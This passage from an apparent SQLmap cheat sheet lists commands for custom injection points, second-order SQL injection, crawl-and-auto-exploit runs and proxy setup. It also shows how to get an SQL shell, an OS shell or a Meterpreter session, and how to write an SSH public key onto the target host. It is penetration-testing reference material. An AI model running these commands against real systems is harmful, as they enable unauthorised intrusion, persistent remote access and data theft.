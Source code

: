 By defining a custom injection point with the wildcard character '`*`' , you have finer control over the testing process, ensuring SQLmap targets specific parts of the request you suspect to be vulnerable.

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
```


## Second Order Injection

A second-order SQL injection occurs when malicious SQL code injected into an application is not executed immediately but is instead stored in the database and later used in another SQL query. 

```powershell
sqlmap -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```


## Getting A Shell

* SQL Shell: `python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell`
* OS Shell: `python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell`
* Meterpreter: `python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn`
* SSH Shell: `python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/`


## Crawl And Auto-Exploit

This method is not advisable for penetration testing; it should only be used in controlled environments or challenges. It will crawl the entire website and automatically submit forms, which may lead to unintended requests being sent to sensitive features like "delete" or "destroy" endpoints.

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
```

* `--batch` = Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
* `--crawl` = How deep you want to crawl a site
* `--forms` = Parse and test forms


## Proxy Configuration For SQLmap

To run SQLmap with a proxy, you can use the `--proxy` option followed by the proxy URL. SQLmap supports various types of proxies such as HTTP, HTTPS, SOCKS4, and SOCKS5.

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
sqlmap -u "http://www.target.com/page.php?id=1" --proxy="http://127.0.0.1:8080" --proxy-cred="user:pass"
```
